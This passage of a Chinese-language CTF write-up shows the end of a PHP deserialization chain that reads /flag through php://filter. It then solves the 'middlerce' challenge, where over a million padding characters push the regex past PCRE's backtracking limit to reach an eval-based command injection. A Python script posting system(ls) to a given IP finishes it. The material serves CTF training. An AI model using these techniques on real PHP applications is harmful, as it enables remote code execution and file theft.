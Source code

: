 ```php

$a->page=$b;
$b->string=$d;
$d->effort=$c;
$c->var='php://filter/convert.base64-encode/resource=/flag';

$e=serialize($a);
//unserialize($e);
echo($e);

```



### middlerce

```php
<?php
include "check.php";
if (isset($_REQUEST['letter'])){
    $txw4ever = $_REQUEST['letter'];
    if (preg_match('/^.*([\w]|\^|\*|\(|\~|\`|\?|\/| |\||\&|!|\<|\>|\{|\x09|\x0a|\[).*$/m',$txw4ever)){
        die("再加把油喔");
    }
    else{
        $command = json_decode($txw4ever,true)['cmd'];
        checkdata($command);
        @eval($command);
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

有一个正则绕过和一个对函数的检查

正则绕过了很多函数，但是他对**command**的读取是读取json格式的**cmd**，所以你可以掺入一些废数据

所以你可以超过正则最大匹配限度从而绕过正则

对函数的检查也很多，选个最简单的就行

payload

```python
import requests


import requests
payload = '{"cmd":"system(ls);","test":"' + "@"*(1000000) + '"}'
res = requests.post("http://1.14.71.254:28272/", data={"letter":payload})
print(res.text)
```
